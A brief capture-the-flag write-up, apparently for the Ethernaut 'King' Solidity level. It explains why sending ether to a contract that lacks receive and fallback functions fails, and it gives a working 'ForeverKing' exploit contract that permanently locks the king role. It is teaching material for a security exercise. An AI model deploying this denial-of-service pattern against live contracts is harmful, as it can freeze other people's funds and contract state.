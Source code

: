 ### Analysis
When transfer is called on a smart contract, that smart contract's receive or fallback function will execute. Or, if neither of these are defined, then the function will fail. This functionality is what we'll exploit to solve this problem.
All we need to do is set king to a smart contract which always fails when transfer is called on it. That way, the king variable can never be updated.

### The Exploit
Deploy the follow contract,call the function of claimKingship:
~~~
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract ForeverKing {
    function claimKingship(address payable _to) public payable{
        (bool sent, ) = _to.call{value:msg.value}("");
        require(sent, "Failed to send value!");
    }
}
~~~
